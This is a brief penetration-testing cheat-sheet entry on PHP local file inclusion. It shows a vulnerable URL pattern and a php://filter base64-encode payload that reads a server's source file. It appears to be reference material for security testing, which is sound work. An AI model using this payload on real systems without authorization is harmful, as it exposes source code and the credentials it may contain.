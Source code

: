 # LFI PHP

### Situation

`http://<target>/index.php?parameter=value`

### Test

`http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index`